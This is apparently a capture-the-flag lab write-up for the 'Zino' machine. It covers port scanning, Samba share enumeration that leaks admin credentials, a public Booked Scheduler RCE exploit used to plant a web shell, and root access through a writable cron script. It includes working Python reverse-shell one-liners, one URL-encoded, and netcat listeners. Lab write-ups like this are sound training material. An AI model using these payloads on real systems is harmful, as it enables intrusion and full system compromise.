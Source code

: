 ```yaml
---
description: 11-10-2022
---
```


# "Zino" (Intermediate)

<figure><img src="../../../.gitbook/assets/image (53) (1).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b26675501b18f5e99fdb2cd4e3957a44 (RSA)
|   256 912d26f1baafd18b698f814a32af9c77 (ECDSA)
|_  256 ec6fdf8bce19138a52573e72a3146f40 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, SIPOptions: 
|_    Host '192.168.49.81' is not allowed to connect to this MariaDB server
8003/tcp open  http        Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=11/10%Time=636D9BA7%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SIPOption
SF:s,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: zino
|   NetBIOS computer name: ZINO\x00
|   Domain name: \x00
|   FQDN: zino
|_  System time: 2022-11-10T19:47:50-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb2-time: 
|   date: 2022-11-11T00:47:51
|_  start_date: N/A
```

Enumerated UDP ports:

```
All 1000 scanned ports on 192.168.81.64 are in ignored states
```

Notes:

* 445/Samba enumeration -- Enum4Linux
* 8003/HTTP <mark style="color:yellow;">Apache 2.4.38 -- "Booked Scheduler" Web Application</mark>

## Enumeration

### Port 8003 - HTTP (Apache 2.4.38)-&#x20;

* I was able to create a new login and authenticate with those credentials
* Searchsploit revealed 3 authenticated RCE vulnerabilities that may come in handy later

```
searchsploit booked

Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directo | php/webapps/48428.txt
```

* I paid close attention to <mark style="color:yellow;">50594.py</mark>
  * Reason being: Python script -- familiar territory

### Port 445 - Samba&#x20;

Enum4Linux:

```
Sharename       Type      Comment
        ---------       ----      -------
        zino            Disk      Logs
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            

[+] Attempting to map shares on 192.168.81.64                                    
                                                                                 
//192.168.81.64/zino    Mapping: OK Listing: OK Writing: N/A                     
//192.168.81.64/print$  Mapping: DENIED Listing: N/A Writing: N/A
```

We can access the <mark style="color:yellow;">zino</mark> share with <mark style="color:yellow;">smbclient</mark>:

<figure><img src="../../../.gitbook/assets/image (54) (1).png" alt=""><figcaption></figcaption></figure>

* From here, I downloaded all of the files for further enumeration

<mark style="color:yellow;">Misc.log</mark>:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">admin</mark>:<mark style="color:yellow;">adminadmin</mark>

* I then logged into the web server with these credentials and we were now admin!
* Now that we have authentication, let's go back to the <mark style="color:yellow;">50594.py exploit</mark>

## Exploitation

### 50594.py -- <mark style="color:yellow;">Booked Scheduler 2.7.5 - Remote Command Execution</mark>&#x20;

```
python3 50594.py http://192.168.81.64:8003 admin adminadmin
[+] Logged in successfully.
[+] Uploaded shell successfully
[+] http://192.168.81.64:8003/booked/Web/custom-favicon.php?cmd=
```

* A web shell was created!

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

* My next goal was to establish further persistence with another reverse shell
* However, since we are still in a web shell, we need to URL encode the reverse shell

Cyber Chef:

<figure><img src="../../../.gitbook/assets/image (50) (1).png" alt=""><figcaption></figcaption></figure>

URL-Encoded Python Reverse Shell:

{% code overflow="wrap" %}
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.49.81%22%2C3306))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27%0A
```
{% endcode %}

* Start a nc listener on Kali -- <mark style="color:red;">`nc -lnvp 3306`</mark>
* Execute the reverse shell within the web shell and you will gain further persistence

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

*   I then stabalized my shell with Python &#x20;

    ```
    python -c 'import pty;pty.spawn("/bin/bash")'
    ```

### Privilege Escalation

* Uploaded <mark style="color:yellow;">linpeas</mark>

### PrivEsc vector

* <mark style="color:yellow;">Vulnerable Cron Job running every three minutes -- It is running with root permissions as well</mark>

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

* I simply removed the file -- <mark style="color:yellow;">`rm -f /var/www/html/booked/cleanup.py`</mark>

Replaced it with the following:

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.81",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /var/www/html/booked/cleanup.py
```

Nc Listener:

```
nc -lnvp 21
```

* Waited three minutes and I was able to get a shell as root!

## Proofs

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
